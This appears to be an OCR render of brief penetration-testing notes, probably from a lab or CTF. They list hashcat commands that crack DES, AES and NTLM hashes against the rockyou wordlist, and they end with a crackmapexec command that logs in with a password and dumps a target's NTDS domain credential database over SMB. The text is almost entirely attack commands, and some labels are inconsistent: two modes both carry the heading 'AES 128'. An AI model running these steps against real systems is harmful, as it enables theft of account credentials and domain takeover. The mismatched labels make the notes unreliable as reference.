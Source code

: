 sudo vim hashestocrack.txt
d057ad893d8a6b2f
828fbbc322f3929f1fe164bcae50e310

DES
sudo hashcat -m 14000 hashestocrack.txt /usr/share/wordlists/rockyou.txt

AES 128
sudo hashcat -m 26401 hashestocrack.txt /usr/share/wordlists/rockyou.txt

AES 128
sudo hashcat -m 19600 hashestocrack.txt /usr/share/wordlists/rockyou.txt

sudo vim hashestocrack.txt
92fd67fd2f49d0e83744aa82363f021b

sudo hashcat -m 1000 hashestocrack.txt /usr/share/wordlists/rockyou.txt


crackmapexec smb $TARGET -u jmarston -p 'P@ssword!' --ntds

